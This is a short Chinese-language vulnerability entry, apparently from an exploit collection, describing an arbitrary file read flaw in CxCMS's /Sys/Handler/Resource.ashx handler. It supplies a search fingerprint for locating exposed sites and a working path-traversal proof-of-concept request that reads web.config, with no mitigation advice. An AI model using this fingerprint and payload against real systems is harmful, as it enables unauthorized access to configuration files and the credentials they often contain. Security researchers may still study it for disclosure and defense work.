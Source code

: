 # CxCMS Resource.ashx 任意文件读取漏洞

# CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## 网络测绘

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](/images/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](/images/202205181443193.png)


